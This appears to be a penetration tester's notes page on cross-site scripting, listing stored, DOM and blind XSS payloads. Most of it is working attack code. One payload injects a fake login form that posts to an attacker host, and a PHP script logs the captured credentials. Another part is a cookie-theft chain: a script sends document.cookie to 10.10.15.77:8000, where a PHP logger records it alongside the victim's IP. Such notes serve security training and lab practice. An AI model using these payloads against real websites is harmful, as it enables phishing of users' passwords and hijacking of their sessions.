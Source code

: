 #xss
automation:
https://github.com/mandatoryprogrammer/xsshunter-express

give it a try for stored xss:
* evil svg
* pdf for xss
* `<img src=x onerror=alert(1) />`

typical payload:
blink: ip, cookie, url

**DOM XSS payload**:
[[DOM-based XSS]]
```html
<img src="" onerror=alert(window.origin)>
```

example payload of login form for DOM XSS:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

server:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.10.15.77/phishing/index.php");
    fclose($file);
    exit();
}
?>
```


```html
<img src=x onerror="&#x61;lert(1)">
```

#### Blind XSS

Common places:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

#### Example of hijacking cookies:
[[Session hijacking]]
Run server:
```php
php -S 0.0.0.0:8000
```

`index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
script.js
```js
new Image().src='http://10.10.15.77:8000/index.php?c='+document.cookie;
```
payload:
```html
"><script src=http://10.10.15.77:8000/script.js></script>
```
